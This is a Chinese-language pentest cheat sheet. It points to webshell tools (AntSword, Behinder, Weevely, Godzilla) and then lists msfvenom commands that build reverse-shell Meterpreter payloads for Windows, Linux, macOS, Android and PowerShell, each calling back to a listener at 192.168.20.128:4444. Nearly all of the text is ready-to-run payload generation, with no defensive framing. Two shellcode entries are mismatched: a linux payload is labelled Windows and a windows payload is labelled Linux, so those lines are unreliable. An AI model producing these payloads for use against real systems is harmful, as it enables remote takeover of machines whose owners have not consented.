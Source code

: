 - 文档传送门：[[antsword]]
### Behinder（冰蝎）

- 文档传送门：[[Behinder]]
### Weevely

- 文档传送门：[[weevely]]
### Godzilla（哥斯拉）

- 文档传送门：[[Godzilla]]



## MSF for webshell

### 1、Payload生成方式

（1）windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform Windows -f exe > shell.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f exe > shell.exe
```
（2）liunx
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform Linux -f elf > shell.elf
```
（3）mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform osx -f macho > shell.macho
```
（4）android
```
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f raw > shell.apk

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 R > test.apk
```
（5）Powershell
```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1
```
（6）shellcode（windows）
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform Windows -f c
```
（7）shellcode（linux）
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform Linux -f c
```
（8）shellcode（mac）
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x86 --platform osx -f c
```
